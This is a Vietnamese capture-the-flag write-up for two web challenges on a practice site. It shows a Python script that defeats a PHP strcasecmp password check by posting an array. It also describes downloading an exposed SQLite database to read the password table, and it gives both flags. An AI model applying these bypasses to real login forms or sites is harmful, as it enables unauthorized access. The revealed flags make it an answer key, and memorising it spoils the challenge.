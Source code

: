 ## Bài 2:
* Đọc mã nguồn của trang 
``` html
<!DOCTYPE html>
<html>
  <head>
    <title>Simple Auth</title>
  </head>
  <body>
    <div>
<?php
$password = 'FLAG_????????????????';
if (isset($_POST['password']))
    if (strcasecmp($_POST['password'], $password) == 0)
        echo "Congratulations! The flag is $password";
    else
        echo "incorrect...";
?>
    </div>
    <form method="POST">
      <input type="password" name="password">
      <input type="submit">
    </form>
  </body>
</html>
```
* Ta thấy 
```php
if (strcasecmp($_POST['password'], $password) == 0)
        echo "Congratulations! The flag is $password";
    else
        echo "incorrect...";
```

* Với hàm `strcasecmp` ta chỉ cần truyền vào 1 mảng password là có thể vượt qua được.
* Viết 1 chương trình sử dụng `Python` để gửi 1 mảng password vào form
```python
import urllib
import urllib2

url = 'http://ctfq.sweetduet.info:10080/~q32/auth.php'
data = {"password[]": "pass ne",}
a = urllib.urlencode(data).encode("utf-8")
print a 
req = urllib2.Request(url, a)
res = urllib2.urlopen(req)
html = res.read()
print html
```
* Ta thu được flag: `FLAG_VQcTWEK7zZYzvLhX`

## Bài 4:
* Xem mã nguồn ta thấy trang web sử dụng database của SQLite
* Đối với SQLite, DBMS này không có cơ chế xác thực bằng Username và Password mà chỉ đơn giản là đường dẫn tới file dữ liệu
* Đọc trong mã nguồn ta thấy 
`$db = new PDO('sqlite:database.db');`
Vậy đường dẫn đến file database sẽ là 
`http://ctfq.sweetduet.info:10080/~q35/database.db`
* Tải file database rồi Select đến bảng user ta sẽ được

| id        | Password              |
| ----------|:---------------------:|
| root      | FLAG_iySDmApNegJvwmxN |

*Vậy cờ thu được là `FLAG_iySDmApNegJvwmxN`